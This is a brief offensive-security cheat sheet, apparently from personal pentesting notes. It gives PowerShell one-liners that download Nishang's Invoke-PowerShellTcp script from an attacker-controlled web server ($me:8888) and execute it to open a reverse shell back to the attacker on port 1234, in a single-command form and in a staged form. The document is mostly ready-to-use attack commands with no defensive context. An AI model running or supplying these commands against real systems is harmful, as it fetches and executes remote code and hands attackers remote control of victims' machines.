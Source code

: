 # powershell

- Powershell reverse shell can be found at [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Connect to listener using

```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 1234"
```

Or the same but in stages

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 1234
```